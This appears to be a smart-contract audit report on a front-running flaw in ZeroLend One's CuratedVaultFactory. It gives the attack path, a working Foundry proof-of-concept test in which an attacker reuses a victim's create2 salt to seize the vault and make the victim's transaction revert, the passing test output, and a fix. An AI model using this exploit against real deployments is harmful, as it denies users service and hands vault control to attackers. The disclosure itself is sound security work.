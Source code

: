 Joyous Cedar Tortoise

Medium

# Attacker can frontrun a user calling createVault by deploying their own vault at the same address

### Summary

An attacker can frontrun [createVault](https://github.com/sherlock-audit/2024-06-new-scope/blob/c8300e73f4d751796daad3dadbae4d11072b3d79/zerolend-one/contracts/core/vaults/CuratedVaultFactory.sol#L48) by calling createVault with the same salt BUT different admin to make the other user's tx revert, while the attacker owns the only vault deployed.

### Root Cause

The create2 salt used when deploying a vault does not include msg.sender in it. This means that the vault creation can be front-ran.

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

1. Honest user calls `createVault`
2. Attacker observes (1) in the mempool and frontruns it by calling `createVault` with the same salt BUT different admin address
3. Honest user's tx will revert
4. In the end state, the only vault that was deployed is owned by the attacker

### Impact

permanent DOS of vault creation

### PoC

Add the following to CuratedVaultFactoryTest
```solidity
function test__FrontrunVaultCreation() public {
    address attacker = address(123);
    address honestUser = address(888);

    // Honest users sets up his params to initalize the vault

    // defaultVaultParams.proxyAdmin = honestUser;
    // defaultVaultParams.admins[0] = honestUser;
    // defaultVaultParams.timelock = 3 days;
    // defaultVaultParams.name = "OG";
    // defaultVaultParams.symbol = "OG";
    // defaultVaultParams.salt = 0x3a7374e86dbf44c1c62fa9e99d1c2c814cc2ebe57d747dbcefc82508bfa66420;

    // Honest user sends a Tx to create a vault

    // Attacker sees the honest user's Tx in the mempool
    // he will frontrun the tx by using the same salt
    // BUT will input a different admin to control the vault

    defaultVaultParams.proxyAdmin = honestUser;
    defaultVaultParams.admins[0] = attacker;
    defaultVaultParams.timelock = 3 days;
    defaultVaultParams.name = "OG";
    defaultVaultParams.symbol = "OG";
    defaultVaultParams.salt = 0x3a7374e86dbf44c1c62fa9e99d1c2c814cc2ebe57d747dbcefc82508bfa66420;

    vm.startPrank(attacker);
    ICuratedVault vault = vaultFactory.createVault(defaultVaultParams);


    // When the honest user's Tx goes through, it will revert
    defaultVaultParams.proxyAdmin = honestUser;
    defaultVaultParams.admins[0] = honestUser;
    defaultVaultParams.timelock = 3 days;
    defaultVaultParams.name = "OG";
    defaultVaultParams.symbol = "OG";
    defaultVaultParams.salt = 0x3a7374e86dbf44c1c62fa9e99d1c2c814cc2ebe57d747dbcefc82508bfa66420;

    vm.startPrank(honestUser);

    vm.expectRevert();
    ICuratedVault vault1 = vaultFactory.createVault(defaultVaultParams);

    // Assert the attacker is the owner of the only vault that deployed
    assertTrue(vault.isOwner(attacker), 'owner');
  }
```

Console output:
```bash
Ran 1 test for test/forge/core/vaults/CuratedVaultFactoryTest.sol:CuratedVaultFactoryTest
[PASS] test__FrontrunVaultCreation() (gas: 1040470906)
Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 5.54ms (304.90µs CPU time)

Ran 1 test suite in 6.15ms (5.54ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

### Mitigation

Include msg.sender in the create2 salt